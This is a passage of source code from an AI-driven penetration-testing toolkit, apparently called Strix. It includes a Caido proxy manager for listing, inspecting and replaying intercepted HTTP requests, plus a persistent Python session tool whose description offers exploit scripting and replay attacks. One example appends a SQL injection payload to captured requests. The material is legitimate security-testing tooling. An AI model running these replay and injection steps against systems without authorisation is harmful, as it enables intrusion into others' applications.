  # Create API-only scope
  <function=scope_rules>
  <parameter=action>create</parameter>
  <parameter=scope_name>API Testing</parameter>
  <parameter=allowlist>["api.example.com", "*.api.com"]</parameter>
  <parameter=denylist>["*.gif", "*.jpg", "*.png", "*.css", "*.js"]</parameter>
  </function>
    </examples>
  </tool>

  <tool name="list_sitemap">
    <description>View hierarchical sitemap of discovered attack surface from proxied traffic.

    Perfect for bug hunters to understand the application structure and identify
    interesting endpoints, directories, and entry points discovered during testing.</description>
    <parameters>
      <parameter name="scope_id" type="string" required="false">
        <description>Scope ID to filter sitemap entries (use scope_rules to get/create scope IDs)</description>
      </parameter>
      <parameter name="parent_id" type="string" required="false">
        <description>ID of parent entry to expand. If None, returns root domains.</description>
      </parameter>
      <parameter name="depth" type="string" required="false">
        <description>DIRECT: Only immediate children. ALL: All descendants recursively.</description>
      </parameter>
      <parameter name="page" type="integer" required="false">
        <description>Page number for pagination (30 entries per page)</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing:
        - 'entries': List of cleaned sitemap entries
        - 'page', 'total_pages', 'total_count': Pagination info
        - 'has_more': Whether more pages available
        - Each entry: id, kind, label, hasDescendants, request (method/path/status only)</description>
    </returns>
    <notes>
  Entry kinds:
  - DOMAIN: Root domains (example.com)
  - DIRECTORY: Path directories (/api/, /admin/)
  - REQUEST: Individual endpoints
  - REQUEST_BODY: POST/PUT body variations
  - REQUEST_QUERY: GET parameter variations

  Check hasDescendants=true to identify entries worth expanding.
  Use parent_id from any entry to drill down into subdirectories.
    </notes>
  </tool>

  <tool name="view_sitemap_entry">
    <description>Get detailed information about a specific sitemap entry and related requests.

    Perfect for understanding what's been discovered under a specific directory
    or endpoint, including all related requests and response codes.</description>
    <parameters>
      <parameter name="entry_id" type="string" required="true">
        <description>ID of the sitemap entry to examine</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing:
        - 'entry': Complete entry details including metadata
        - Entry contains 'requests' with all related HTTP requests
        - Shows request methods, paths, response codes, timing</description>
    </returns>
  </tool>
</tools>
```

## File: `strix/tools/proxy/proxy_manager.py`
```python
import base64
import os
import re
import time
from typing import TYPE_CHECKING, Any
from urllib.parse import parse_qs, urlencode, urlparse, urlunparse

import requests
from gql import Client, gql
from gql.transport.exceptions import TransportQueryError
from gql.transport.requests import RequestsHTTPTransport
from requests.exceptions import ProxyError, RequestException, Timeout


if TYPE_CHECKING:
    from collections.abc import Callable


CAIDO_PORT = 48080  # Fixed port inside container


class ProxyManager:
    def __init__(self, auth_token: str | None = None):
        host = "127.0.0.1"
        self.base_url = f"http://{host}:{CAIDO_PORT}/graphql"
        self.proxies = {
            "http": f"http://{host}:{CAIDO_PORT}",
            "https": f"http://{host}:{CAIDO_PORT}",
        }
        self.auth_token = auth_token or os.getenv("CAIDO_API_TOKEN")

    def _get_client(self) -> Client:
        transport = RequestsHTTPTransport(
            url=self.base_url, headers={"Authorization": f"Bearer {self.auth_token}"}
        )
        return Client(transport=transport, fetch_schema_from_transport=False)

    def list_requests(
        self,
        httpql_filter: str | None = None,
        start_page: int = 1,
        end_page: int = 1,
        page_size: int = 50,
        sort_by: str = "timestamp",
        sort_order: str = "desc",
        scope_id: str | None = None,
    ) -> dict[str, Any]:
        offset = (start_page - 1) * page_size
        limit = (end_page - start_page + 1) * page_size

        sort_mapping = {
            "timestamp": "CREATED_AT",
            "host": "HOST",
            "method": "METHOD",
            "path": "PATH",
            "status_code": "RESP_STATUS_CODE",
            "response_time": "RESP_ROUNDTRIP_TIME",
            "response_size": "RESP_LENGTH",
            "source": "SOURCE",
        }

        query = gql("""
            query GetRequests(
                $limit: Int, $offset: Int, $filter: HTTPQL,
                $order: RequestResponseOrderInput, $scopeId: ID
            ) {
                requestsByOffset(
                    limit: $limit, offset: $offset, filter: $filter,
                    order: $order, scopeId: $scopeId
                ) {
                    edges {
                        node {
                            id method host path query createdAt length isTls port
                            source alteration fileExtension
                            response { id statusCode length roundtripTime createdAt }
                        }
                    }
                    count { value }
                }
            }
        """)

        variables = {
            "limit": limit,
            "offset": offset,
            "filter": httpql_filter,
            "order": {
                "by": sort_mapping.get(sort_by, "CREATED_AT"),
                "ordering": sort_order.upper(),
            },
            "scopeId": scope_id,
        }

        try:
            result = self._get_client().execute(query, variable_values=variables)
            data = result.get("requestsByOffset", {})
            nodes = [edge["node"] for edge in data.get("edges", [])]

            count_data = data.get("count") or {}
            return {
                "requests": nodes,
                "total_count": count_data.get("value", 0),
                "start_page": start_page,
                "end_page": end_page,
                "page_size": page_size,
                "offset": offset,
                "returned_count": len(nodes),
                "sort_by": sort_by,
                "sort_order": sort_order,
            }
        except (TransportQueryError, ValueError, KeyError) as e:
            return {"requests": [], "total_count": 0, "error": f"Error fetching requests: {e}"}

    def view_request(
        self,
        request_id: str,
        part: str = "request",
        search_pattern: str | None = None,
        page: int = 1,
        page_size: int = 50,
    ) -> dict[str, Any]:
        queries = {
            "request": """query GetRequest($id: ID!) {
                request(id: $id) {
                    id method host path query createdAt length isTls port
                    source alteration edited raw
                }
            }""",
            "response": """query GetRequest($id: ID!) {
                request(id: $id) {
                    id response {
                        id statusCode length roundtripTime createdAt raw
                    }
                }
            }""",
        }

        if part not in queries:
            return {"error": f"Invalid part '{part}'. Use 'request' or 'response'"}

        try:
            result = self._get_client().execute(
                gql(queries[part]), variable_values={"id": request_id}
            )
            request_data = result.get("request", {})

            if not request_data:
                return {"error": f"Request {request_id} not found"}

            if part == "request":
                raw_content = request_data.get("raw")
            else:
                response_data = request_data.get("response") or {}
                raw_content = response_data.get("raw")

            if not raw_content:
                return {"error": "No content available"}

            content = base64.b64decode(raw_content).decode("utf-8", errors="replace")

            if part == "response":
                request_data["response"]["raw"] = content
            else:
                request_data["raw"] = content

            return (
                self._search_content(request_data, content, search_pattern)
                if search_pattern
                else self._paginate_content(request_data, content, page, page_size)
            )

        except (TransportQueryError, ValueError, KeyError, UnicodeDecodeError) as e:
            return {"error": f"Failed to view request: {e}"}

    def _search_content(
        self, request_data: dict[str, Any], content: str, pattern: str
    ) -> dict[str, Any]:
        try:
            regex = re.compile(pattern, re.IGNORECASE | re.MULTILINE | re.DOTALL)
            matches = []

            for match in regex.finditer(content):
                start, end = match.start(), match.end()
                context_size = 120

                before = re.sub(r"\s+", " ", content[max(0, start - context_size) : start].strip())[
                    -100:
                ]
                after = re.sub(r"\s+", " ", content[end : end + context_size].strip())[:100]

                matches.append(
                    {"match": match.group(), "before": before, "after": after, "position": start}
                )

                if len(matches) >= 20:
                    break

            return {
                "id": request_data.get("id"),
                "matches": matches,
                "total_matches": len(matches),
                "search_pattern": pattern,
                "truncated": len(matches) >= 20,
            }
        except re.error as e:
            return {"error": f"Invalid regex: {e}"}

    def _paginate_content(
        self, request_data: dict[str, Any], content: str, page: int, page_size: int
    ) -> dict[str, Any]:
        display_lines = []
        for line in content.split("\n"):
            if len(line) <= 80:
                display_lines.append(line)
            else:
                display_lines.extend(
                    [
                        line[i : i + 80] + (" \\" if i + 80 < len(line) else "")
                        for i in range(0, len(line), 80)
                    ]
                )

        total_lines = len(display_lines)
        total_pages = (total_lines + page_size - 1) // page_size
        page = max(1, min(page, total_pages))

        start_line = (page - 1) * page_size
        end_line = min(total_lines, start_line + page_size)

        return {
            "id": request_data.get("id"),
            "content": "\n".join(display_lines[start_line:end_line]),
            "page": page,
            "total_pages": total_pages,
            "showing_lines": f"{start_line + 1}-{end_line} of {total_lines}",
            "has_more": page < total_pages,
        }

    def send_simple_request(
        self,
        method: str,
        url: str,
        headers: dict[str, str] | None = None,
        body: str = "",
        timeout: int = 30,
    ) -> dict[str, Any]:
        if headers is None:
            headers = {}
        try:
            start_time = time.time()
            response = requests.request(
                method=method,
                url=url,
                headers=headers,
                data=body or None,
                proxies=self.proxies,
                timeout=timeout,
                verify=False,
            )
            response_time = int((time.time() - start_time) * 1000)

            body_content = response.text
            if len(body_content) > 10000:
                body_content = body_content[:10000] + "\n... [truncated]"

            return {
                "status_code": response.status_code,
                "headers": dict(response.headers),
                "body": body_content,
                "response_time_ms": response_time,
                "url": response.url,
                "message": (
                    "Request sent through proxy - check list_requests() for captured traffic"
                ),
            }
        except (RequestException, ProxyError, Timeout) as e:
            return {"error": f"Request failed: {type(e).__name__}", "details": str(e), "url": url}

    def repeat_request(
        self, request_id: str, modifications: dict[str, Any] | None = None
    ) -> dict[str, Any]:
        if modifications is None:
            modifications = {}

        original = self.view_request(request_id, "request")
        if "error" in original:
            return {"error": f"Could not retrieve original request: {original['error']}"}

        raw_content = original.get("content", "")
        if not raw_content:
            return {"error": "No raw request content found"}

        request_components = self._parse_http_request(raw_content)
        if "error" in request_components:
            return request_components

        full_url = self._build_full_url(request_components, modifications)
        if "error" in full_url:
            return full_url

        modified_request = self._apply_modifications(
            request_components, modifications, full_url["url"]
        )

        return self._send_modified_request(modified_request, request_id, modifications)

    def _parse_http_request(self, raw_content: str) -> dict[str, Any]:
        lines = raw_content.split("\n")
        request_line = lines[0].strip().split(" ")
        if len(request_line) < 2:
            return {"error": "Invalid request line format"}

        method, url_path = request_line[0], request_line[1]

        headers = {}
        body_start = 0
        for i, line in enumerate(lines[1:], 1):
            if line.strip() == "":
                body_start = i + 1
                break
            if ":" in line:
                key, value = line.split(":", 1)
                headers[key.strip()] = value.strip()

        body = "\n".join(lines[body_start:]).strip() if body_start < len(lines) else ""

        return {"method": method, "url_path": url_path, "headers": headers, "body": body}

    def _build_full_url(
        self, components: dict[str, Any], modifications: dict[str, Any]
    ) -> dict[str, Any]:
        headers = components["headers"]
        host = headers.get("Host", "")
        if not host:
            return {"error": "No Host header found"}

        protocol = (
            "https" if ":443" in host or "https" in headers.get("Referer", "").lower() else "http"
        )
        full_url = f"{protocol}://{host}{components['url_path']}"

        if "url" in modifications:
            full_url = modifications["url"]

        return {"url": full_url}

    def _apply_modifications(
        self, components: dict[str, Any], modifications: dict[str, Any], full_url: str
    ) -> dict[str, Any]:
        headers = components["headers"].copy()
        body = components["body"]
        final_url = full_url

        if "params" in modifications:
            parsed = urlparse(final_url)
            params = {k: v[0] if v else "" for k, v in parse_qs(parsed.query).items()}
            params.update(modifications["params"])
            final_url = urlunparse(parsed._replace(query=urlencode(params)))

        if "headers" in modifications:
            headers.update(modifications["headers"])

        if "body" in modifications:
            body = modifications["body"]

        if "cookies" in modifications:
            cookies = {}
            if headers.get("Cookie"):
                for cookie in headers["Cookie"].split(";"):
                    if "=" in cookie:
                        k, v = cookie.split("=", 1)
                        cookies[k.strip()] = v.strip()
            cookies.update(modifications["cookies"])
            headers["Cookie"] = "; ".join([f"{k}={v}" for k, v in cookies.items()])

        return {
            "method": components["method"],
            "url": final_url,
            "headers": headers,
            "body": body,
        }

    def _send_modified_request(
        self, request_data: dict[str, Any], request_id: str, modifications: dict[str, Any]
    ) -> dict[str, Any]:
        try:
            start_time = time.time()
            response = requests.request(
                method=request_data["method"],
                url=request_data["url"],
                headers=request_data["headers"],
                data=request_data["body"] or None,
                proxies=self.proxies,
                timeout=30,
                verify=False,
            )
            response_time = int((time.time() - start_time) * 1000)

            response_body = response.text
            truncated = len(response_body) > 10000
            if truncated:
                response_body = response_body[:10000] + "\n... [truncated]"

            return {
                "status_code": response.status_code,
                "status_text": response.reason,
                "headers": {
                    k: v
                    for k, v in response.headers.items()
                    if k.lower()
                    in ["content-type", "content-length", "server", "set-cookie", "location"]
                },
                "body": response_body,
                "body_truncated": truncated,
                "body_size": len(response.content),
                "response_time_ms": response_time,
                "url": response.url,
                "original_request_id": request_id,
                "modifications_applied": modifications,
                "request": {
                    "method": request_data["method"],
                    "url": request_data["url"],
                    "headers": request_data["headers"],
                    "has_body": bool(request_data["body"]),
                },
            }

        except ProxyError as e:
            return {
                "error": "Proxy connection failed - is Caido running?",
                "details": str(e),
                "original_request_id": request_id,
            }
        except (RequestException, Timeout) as e:
            return {
                "error": f"Failed to repeat request: {type(e).__name__}",
                "details": str(e),
                "original_request_id": request_id,
            }

    def _handle_scope_list(self) -> dict[str, Any]:
        result = self._get_client().execute(
            gql("query { scopes { id name allowlist denylist indexed } }")
        )
        scopes = result.get("scopes", [])
        return {"scopes": scopes, "count": len(scopes)}

    def _handle_scope_get(self, scope_id: str | None) -> dict[str, Any]:
        if not scope_id:
            return self._handle_scope_list()

        result = self._get_client().execute(
            gql(
                "query GetScope($id: ID!) { scope(id: $id) { id name allowlist denylist indexed } }"
            ),
            variable_values={"id": scope_id},
        )
        scope = result.get("scope")
        if not scope:
            return {"error": f"Scope {scope_id} not found"}
        return {"scope": scope}

    def _handle_scope_create(
        self, scope_name: str, allowlist: list[str] | None, denylist: list[str] | None
    ) -> dict[str, Any]:
        if not scope_name:
            return {"error": "scope_name required for create"}

        mutation = gql("""
            mutation CreateScope($input: CreateScopeInput!) {
                createScope(input: $input) {
                    scope { id name allowlist denylist indexed }
                    error {
                        ... on InvalidGlobTermsUserError { code terms }
                        ... on OtherUserError { code }
                    }
                }
            }
        """)

        result = self._get_client().execute(
            mutation,
            variable_values={
                "input": {
                    "name": scope_name,
                    "allowlist": allowlist or [],
                    "denylist": denylist or [],
                }
            },
        )

        payload = result.get("createScope", {})
        if payload.get("error"):
            error = payload["error"]
            return {"error": f"Invalid glob patterns: {error.get('terms', error.get('code'))}"}

        return {"scope": payload.get("scope"), "message": "Scope created successfully"}

    def _handle_scope_update(
        self,
        scope_id: str,
        scope_name: str,
        allowlist: list[str] | None,
        denylist: list[str] | None,
    ) -> dict[str, Any]:
        if not scope_id or not scope_name:
            return {"error": "scope_id and scope_name required"}

        mutation = gql("""
            mutation UpdateScope($id: ID!, $input: UpdateScopeInput!) {
                updateScope(id: $id, input: $input) {
                    scope { id name allowlist denylist indexed }
                    error {
                        ... on InvalidGlobTermsUserError { code terms }
                        ... on OtherUserError { code }
                    }
                }
            }
        """)

        result = self._get_client().execute(
            mutation,
            variable_values={
                "id": scope_id,
                "input": {
                    "name": scope_name,
                    "allowlist": allowlist or [],
                    "denylist": denylist or [],
                },
            },
        )

        payload = result.get("updateScope", {})
        if payload.get("error"):
            error = payload["error"]
            return {"error": f"Invalid glob patterns: {error.get('terms', error.get('code'))}"}

        return {"scope": payload.get("scope"), "message": "Scope updated successfully"}

    def _handle_scope_delete(self, scope_id: str) -> dict[str, Any]:
        if not scope_id:
            return {"error": "scope_id required for delete"}

        result = self._get_client().execute(
            gql("mutation DeleteScope($id: ID!) { deleteScope(id: $id) { deletedId } }"),
            variable_values={"id": scope_id},
        )

        payload = result.get("deleteScope", {})
        if not payload.get("deletedId"):
            return {"error": f"Failed to delete scope {scope_id}"}
        return {"message": f"Scope {scope_id} deleted", "deletedId": payload["deletedId"]}

    def scope_rules(
        self,
        action: str,
        allowlist: list[str] | None = None,
        denylist: list[str] | None = None,
        scope_id: str | None = None,
        scope_name: str | None = None,
    ) -> dict[str, Any]:
        handlers: dict[str, Callable[[], dict[str, Any]]] = {
            "list": self._handle_scope_list,
            "get": lambda: self._handle_scope_get(scope_id),
            "create": lambda: (
                {"error": "scope_name required for create"}
                if not scope_name
                else self._handle_scope_create(scope_name, allowlist, denylist)
            ),
            "update": lambda: (
                {"error": "scope_id and scope_name required"}
                if not scope_id or not scope_name
                else self._handle_scope_update(scope_id, scope_name, allowlist, denylist)
            ),
            "delete": lambda: (
                {"error": "scope_id required for delete"}
                if not scope_id
                else self._handle_scope_delete(scope_id)
            ),
        }

        handler = handlers.get(action)
        if not handler:
            return {
                "error": f"Unsupported action: {action}. Use 'get', 'list', 'create', "
                f"'update', or 'delete'"
            }

        try:
            result = handler()
        except (TransportQueryError, ValueError, KeyError) as e:
            return {"error": f"Scope operation failed: {e}"}
        else:
            return result

    def list_sitemap(
        self,
        scope_id: str | None = None,
        parent_id: str | None = None,
        depth: str = "DIRECT",
        page: int = 1,
        page_size: int = 30,
    ) -> dict[str, Any]:
        try:
            skip_count = (page - 1) * page_size

            if parent_id:
                query = gql("""
                    query GetSitemapDescendants($parentId: ID!, $depth: SitemapDescendantsDepth!) {
                        sitemapDescendantEntries(parentId: $parentId, depth: $depth) {
                            edges {
                                node {
                                    id kind label hasDescendants
                                    request { method path response { statusCode } }
                                }
                            }
                            count { value }
                        }
                    }
                """)
                result = self._get_client().execute(
                    query, variable_values={"parentId": parent_id, "depth": depth}
                )
                data = result.get("sitemapDescendantEntries", {})
            else:
                query = gql("""
                    query GetSitemapRoots($scopeId: ID) {
                        sitemapRootEntries(scopeId: $scopeId) {
                            edges { node {
                                id kind label hasDescendants
                                metadata { ... on SitemapEntryMetadataDomain { isTls port } }
                                request { method path response { statusCode } }
                            } }
                            count { value }
                        }
                    }
                """)
                result = self._get_client().execute(query, variable_values={"scopeId": scope_id})
                data = result.get("sitemapRootEntries", {})

            all_nodes = [edge["node"] for edge in data.get("edges", [])]
            count_data = data.get("count") or {}
            total_count = count_data.get("value", 0)

            paginated_nodes = all_nodes[skip_count : skip_count + page_size]
            cleaned_nodes = []

            for node in paginated_nodes:
                cleaned = {
                    "id": node["id"],
                    "kind": node["kind"],
                    "label": node["label"],
                    "hasDescendants": node["hasDescendants"],
                }

                if node.get("metadata") and (
                    node["metadata"].get("isTls") is not None or node["metadata"].get("port")
                ):
                    cleaned["metadata"] = node["metadata"]

                if node.get("request"):
                    req = node["request"]
                    cleaned_req = {}
                    if req.get("method"):
                        cleaned_req["method"] = req["method"]
                    if req.get("path"):
                        cleaned_req["path"] = req["path"]
                    response_data = req.get("response") or {}
                    if response_data.get("statusCode"):
                        cleaned_req["status"] = response_data["statusCode"]
                    if cleaned_req:
                        cleaned["request"] = cleaned_req

                cleaned_nodes.append(cleaned)

            total_pages = (total_count + page_size - 1) // page_size

            return {
                "entries": cleaned_nodes,
                "page": page,
                "page_size": page_size,
                "total_pages": total_pages,
                "total_count": total_count,
                "has_more": page < total_pages,
                "showing": (
                    f"{skip_count + 1}-{min(skip_count + page_size, total_count)} of {total_count}"
                ),
            }

        except (TransportQueryError, ValueError, KeyError) as e:
            return {"error": f"Failed to fetch sitemap: {e}"}

    def _process_sitemap_metadata(self, node: dict[str, Any]) -> dict[str, Any]:
        cleaned = {
            "id": node["id"],
            "kind": node["kind"],
            "label": node["label"],
            "hasDescendants": node["hasDescendants"],
        }

        if node.get("metadata") and (
            node["metadata"].get("isTls") is not None or node["metadata"].get("port")
        ):
            cleaned["metadata"] = node["metadata"]

        return cleaned

    def _process_sitemap_request(self, req: dict[str, Any]) -> dict[str, Any] | None:
        cleaned_req = {}
        if req.get("method"):
            cleaned_req["method"] = req["method"]
        if req.get("path"):
            cleaned_req["path"] = req["path"]
        response_data = req.get("response") or {}
        if response_data.get("statusCode"):
            cleaned_req["status"] = response_data["statusCode"]
        return cleaned_req if cleaned_req else None

    def _process_sitemap_response(self, resp: dict[str, Any]) -> dict[str, Any]:
        cleaned_resp = {}
        if resp.get("statusCode"):
            cleaned_resp["status"] = resp["statusCode"]
        if resp.get("length"):
            cleaned_resp["size"] = resp["length"]
        if resp.get("roundtripTime"):
            cleaned_resp["time_ms"] = resp["roundtripTime"]
        return cleaned_resp

    def view_sitemap_entry(self, entry_id: str) -> dict[str, Any]:
        try:
            query = gql("""
                query GetSitemapEntry($id: ID!) {
                    sitemapEntry(id: $id) {
                        id kind label hasDescendants
                        metadata { ... on SitemapEntryMetadataDomain { isTls port } }
                        request { method path response { statusCode length roundtripTime } }
                        requests(first: 30, order: {by: CREATED_AT, ordering: DESC}) {
                            edges { node { method path response { statusCode length } } }
                            count { value }
                        }
                    }
                }
            """)

            result = self._get_client().execute(query, variable_values={"id": entry_id})
            entry = result.get("sitemapEntry")

            if not entry:
                return {"error": f"Sitemap entry {entry_id} not found"}

            cleaned = self._process_sitemap_metadata(entry)

            if entry.get("request"):
                req = entry["request"]
                cleaned_req = {}
                if req.get("method"):
                    cleaned_req["method"] = req["method"]
                if req.get("path"):
                    cleaned_req["path"] = req["path"]
                if req.get("response"):
                    cleaned_req["response"] = self._process_sitemap_response(req["response"])
                if cleaned_req:
                    cleaned["request"] = cleaned_req

            requests_data = entry.get("requests", {})
            request_nodes = [edge["node"] for edge in requests_data.get("edges", [])]

            cleaned_requests = [
                req
                for req in (self._process_sitemap_request(node) for node in request_nodes)
                if req is not None
            ]

            count_data = requests_data.get("count") or {}
            cleaned["related_requests"] = {
                "requests": cleaned_requests,
                "total_count": count_data.get("value", 0),
                "showing": f"Latest {len(cleaned_requests)} requests",
            }

            return {"entry": cleaned} if cleaned else {"error": "Failed to process sitemap entry"}  # noqa: TRY300

        except (TransportQueryError, ValueError, KeyError) as e:
            return {"error": f"Failed to fetch sitemap entry: {e}"}

    def close(self) -> None:
        pass


_PROXY_MANAGER: ProxyManager | None = None


def get_proxy_manager() -> ProxyManager:
    global _PROXY_MANAGER  # noqa: PLW0603
    if _PROXY_MANAGER is None:
        _PROXY_MANAGER = ProxyManager()
    return _PROXY_MANAGER
```

## File: `strix/tools/proxy/__init__.py`
```python
from .proxy_actions import (
    list_requests,
    list_sitemap,
    repeat_request,
    scope_rules,
    send_request,
    view_request,
    view_sitemap_entry,
)


__all__ = [
    "list_requests",
    "list_sitemap",
    "repeat_request",
    "scope_rules",
    "send_request",
    "view_request",
    "view_sitemap_entry",
]
```

## File: `strix/tools/python/python_actions.py`
```python
from typing import Any, Literal

from strix.tools.registry import register_tool


PythonAction = Literal["new_session", "execute", "close", "list_sessions"]


@register_tool
def python_action(
    action: PythonAction,
    code: str | None = None,
    timeout: int = 30,
    session_id: str | None = None,
) -> dict[str, Any]:
    from .python_manager import get_python_session_manager

    def _validate_code(action_name: str, code: str | None) -> None:
        if not code:
            raise ValueError(f"code parameter is required for {action_name} action")

    def _validate_action(action_name: str) -> None:
        raise ValueError(f"Unknown action: {action_name}")

    manager = get_python_session_manager()

    try:
        match action:
            case "new_session":
                return manager.create_session(session_id, code, timeout)

            case "execute":
                _validate_code(action, code)
                assert code is not None
                return manager.execute_code(session_id, code, timeout)

            case "close":
                return manager.close_session(session_id)

            case "list_sessions":
                return manager.list_sessions()

            case _:
                _validate_action(action)  # type: ignore[unreachable]

    except (ValueError, RuntimeError) as e:
        return {"stderr": str(e), "session_id": session_id, "stdout": "", "is_running": False}
```

## File: `strix/tools/python/python_actions_schema.xml`
```xml
<tools>
  <tool name="python_action">
    <description>Perform Python actions using persistent interpreter sessions for cybersecurity tasks.</description>
    <details>Common Use Cases:
      - Security script development and testing (payload generation, exploit scripts)
      - Data analysis of security logs, network traffic, or vulnerability scans
      - Cryptographic operations and security tool automation
      - Interactive penetration testing workflows and proof-of-concept development
      - Processing security data formats (JSON, XML, CSV from security tools)
      - HTTP proxy interaction for web security testing (all proxy functions are pre-imported)

      Each session instance is PERSISTENT and maintains its own global and local namespaces
      until explicitly closed, allowing for multi-step security workflows and stateful computations.

      PROXY FUNCTIONS PRE-IMPORTED:
      All proxy action functions are automatically imported into every Python session, enabling
      seamless HTTP traffic analysis and web security testing

      This is particularly useful for:
      - Analyzing captured HTTP traffic during web application testing
      - Automating request manipulation and replay attacks
      - Building custom security testing workflows combining proxy data with Python analysis
      - Correlating multiple requests for advanced attack scenarios</details>
    <parameters>
      <parameter name="action" type="string" required="true">
        <description>The Python action to perform:     - new_session: Create a new Python interpreter session. This MUST be the first       action for each session.     - execute: Execute Python code in the specified session.     - close: Close the specified session instance.     - list_sessions: List all active Python sessions.</description>
      </parameter>
      <parameter name="code" type="string" required="false">
        <description>Required for 'new_session' (as initial code) and 'execute' actions. The Python code to execute.</description>
      </parameter>
      <parameter name="timeout" type="integer" required="false">
        <description>Maximum execution time in seconds for code execution. Applies to both 'new_session' (when initial code is provided) and 'execute' actions. Default is 30 seconds.</description>
      </parameter>
      <parameter name="session_id" type="string" required="false">
        <description>Unique identifier for the Python session. If not provided, uses the default session ID.</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - session_id: the ID of the session that was operated on - stdout: captured standard output from code execution (for execute action) - stderr: any error message if execution failed - result: string representation of the last expression result - execution_time: time taken to execute the code - message: status message about the action performed - Various session info depending on the action</description>
    </returns>
    <notes>
  Important usage rules:
      1. PERSISTENCE: Session instances remain active and maintain their state (variables,
         imports, function definitions) until explicitly closed with the 'close' action.
         This allows for multi-step workflows across multiple tool calls.
      2. MULTIPLE SESSIONS: You can run multiple Python sessions concurrently by using
         different session_id values. Each session operates independently with its own
         namespace.
      3. Session interaction MUST begin with 'new_session' action for each session instance.
      4. Only one action can be performed per call.
      5. CODE EXECUTION:
         - Both expressions and statements are supported
         - Expressions automatically return their result
         - Print statements and stdout are captured
         - Variables persist between executions in the same session
         - Imports, function definitions, etc. persist in the session
         - IMPORTANT (multiline): Put real line breaks in your code. Do NOT emit literal "\n" sequences — use actual newlines.
         - IPython magic commands are fully supported (%pip, %time, %whos, %%writefile, etc.)
         - Line magics (%) and cell magics (%%) work as expected
      6. CLOSE: Terminates the session completely and frees memory
      7. The Python sessions can operate concurrently with other tools. You may invoke
         terminal, browser, or other tools while maintaining active Python sessions.
      8. Each session has its own isolated namespace - variables in one session don't
         affect others.
    </notes>
    <examples>
  # Create new session for security analysis (default session)
      <function=python_action>
      <parameter=action>new_session</parameter>
      <parameter=code>import hashlib
      import base64
      import json
      print("Security analysis session started")</parameter>
      </function>

      <function=python_action>
      <parameter=action>execute</parameter>
      <parameter=code>import requests
url = "https://example.com"
resp = requests.get(url, timeout=10)
print(resp.status_code)</parameter>
      </function>

      # Analyze security data in the default session
      <function=python_action>
      <parameter=action>execute</parameter>
      <parameter=code>vulnerability_data = {"cve": "CVE-2024-1234", "severity": "high"}
      encoded_payload = base64.b64encode(json.dumps(vulnerability_data).encode())
      print(f"Encoded: {encoded_payload.decode()}")</parameter>
      </function>

      # Long running security scan with custom timeout
      <function=python_action>
      <parameter=action>execute</parameter>
      <parameter=code>import time
      # Simulate long-running vulnerability scan
      time.sleep(45)
      print('Security scan completed!')</parameter>
      <parameter=timeout>50</parameter>
      </function>

      # Use IPython magic commands for package management and profiling
      <function=python_action>
      <parameter=action>execute</parameter>
      <parameter=code>%pip install requests
      %time response = requests.get('https://httpbin.org/json')
      %whos</parameter>

      # Analyze requests for potential vulnerabilities
      <function=python_action>
      <parameter=action>execute</parameter>
      <parameter=code># Filter for POST requests that might contain sensitive data
      post_requests = list_requests(
          httpql_filter="req.method.eq:POST",
          page_size=20
      )

      # Analyze each POST request for potential issues
      for req in post_requests.get('requests', []):
          request_id = req['id']
          # View the request details
          request_details = view_request(request_id, part="request")

          # Check for potential SQL injection points
          body = request_details.get('body', '')
          if any(keyword in body.lower() for keyword in ['select', 'union', 'insert', 'update']):
              print(f"Potential SQL injection in request {request_id}")

              # Repeat the request with a test payload
              test_payload = repeat_request(request_id, {
                  'body': body + "' OR '1'='1"
              })
              print(f"Test response status: {test_payload.get('status_code')}")

              print("Security analysis complete!")</parameter>
        </function>
      </examples>
  </tool>
</tools>
```

## File: `strix/tools/python/python_instance.py`
```python
import io
import sys
import threading
from typing import Any

from IPython.core.interactiveshell import InteractiveShell


MAX_STDOUT_LENGTH = 10_000
MAX_STDERR_LENGTH = 5_000


class PythonInstance:
    def __init__(self, session_id: str) -> None:
        self.session_id = session_id
        self.is_running = True
        self._execution_lock = threading.Lock()

        import os

        os.chdir("/workspace")

        self.shell = InteractiveShell()
        self.shell.init_completer()
        self.shell.init_history()
        self.shell.init_logger()

        self._setup_proxy_functions()

    def _setup_proxy_functions(self) -> None:
        try:
            from strix.tools.proxy import proxy_actions

            proxy_functions = [
                "list_requests",
                "list_sitemap",
                "repeat_request",
                "scope_rules",
                "send_request",
                "view_request",
                "view_sitemap_entry",
            ]

            proxy_dict = {name: getattr(proxy_actions, name) for name in proxy_functions}
            self.shell.user_ns.update(proxy_dict)
        except ImportError:
            pass

    def _validate_session(self) -> dict[str, Any] | None:
        if not self.is_running:
            return {
                "session_id": self.session_id,
                "stdout": "",
                "stderr": "Session is not running",
                "result": None,
            }
        return None

    def _truncate_output(self, content: str, max_length: int, suffix: str) -> str:
        if len(content) > max_length:
            return content[:max_length] + suffix
        return content

    def _format_execution_result(
        self, execution_result: Any, stdout_content: str, stderr_content: str
    ) -> dict[str, Any]:
        stdout = self._truncate_output(
            stdout_content, MAX_STDOUT_LENGTH, "... [stdout truncated at 10k chars]"
        )

        if execution_result.result is not None:
            if stdout and not stdout.endswith("\n"):
                stdout += "\n"
            result_repr = repr(execution_result.result)
            result_repr = self._truncate_output(
                result_repr, MAX_STDOUT_LENGTH, "... [result truncated at 10k chars]"
            )
            stdout += result_repr

        stdout = self._truncate_output(
            stdout, MAX_STDOUT_LENGTH, "... [output truncated at 10k chars]"
        )

        stderr_content = stderr_content if stderr_content else ""
        stderr_content = self._truncate_output(
            stderr_content, MAX_STDERR_LENGTH, "... [stderr truncated at 5k chars]"
        )

        if (
            execution_result.error_before_exec or execution_result.error_in_exec
        ) and not stderr_content:
            stderr_content = "Execution error occurred"

        return {
            "session_id": self.session_id,
            "stdout": stdout,
            "stderr": stderr_content,
            "result": repr(execution_result.result)
            if execution_result.result is not None
            else None,
        }

    def _handle_execution_error(self, error: BaseException) -> dict[str, Any]:
        error_msg = str(error)
        error_msg = self._truncate_output(
            error_msg, MAX_STDERR_LENGTH, "... [error truncated at 5k chars]"
        )

        return {
            "session_id": self.session_id,
            "stdout": "",
            "stderr": error_msg,
            "result": None,
        }

    def execute_code(self, code: str, timeout: int = 30) -> dict[str, Any]:
        session_error = self._validate_session()
        if session_error:
            return session_error

        with self._execution_lock:
            result_container: dict[str, Any] = {}
            stdout_capture = io.StringIO()
            stderr_capture = io.StringIO()
            cancelled = threading.Event()

            old_stdout, old_stderr = sys.stdout, sys.stderr

            def _run_code() -> None:
                try:
                    sys.stdout = stdout_capture
